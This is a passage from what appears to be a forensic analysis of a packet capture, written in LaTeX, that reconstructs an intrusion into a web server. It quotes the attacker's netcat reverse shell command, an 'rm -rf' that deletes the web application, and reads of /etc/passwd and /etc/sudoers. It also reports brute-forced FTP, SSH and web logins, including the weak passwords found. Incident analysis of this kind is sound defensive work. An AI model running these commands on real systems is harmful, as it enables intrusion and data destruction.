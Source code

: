 \subsection{Covering Tracks and manipulated Files}
By successfully being able to communicate with telnet in the end the attacker tried to cover the tracks by trying to detach the screen session that came from his ip address. 
\begin{verbatim}
sudo screen -dmS reverse_shell bash -c 'sleep 30; nc -e /bin/sh 10.13.37.137 1239'
\end{verbatim}

In his telnet session he manipulated these files.
\begin{itemize}
    \item Removing the web application
        \begin{verbatim} rm -rf web \end{verbatim} 
    \item Checking who is root
    \begin{verbatim} grep 'x:0:' /etc/passwd \end{verbatim} 
    \begin{verbatim} grep root /etc/group \end{verbatim}
    \begin{verbatim} sudo cat /etc/sudoers \end{verbatim}
    \item He change the access permission of folder upload to all.
    \item He modified index.php with the content of the badPHP.php file.
\end{itemize}

\subsection{Targeted Attacks}
The attacker tried connecting to 10.13.37.137 using FTP and the user 'webadmin' multiple times.
This can be seen in frames \#4795 - \#8419

He managed to find the 'webadmin' password (password1) in frame \#8390 with the acknowledgement coming in frame \#8395.
He uses that password later to perform a telnet connection to the attacked server

The attacker tried bruteforcing SSH (seen in frames \#8442 - \#9919)
with the user 'john' (e.g., in packet \#8575) without success.

The attacker tried logging in through the web interface with the user 'admin'
(e.g. frame \#9950) without success. Eventually though, he managed to login with the
user 'username' and the password 'password' (frame \#10054).

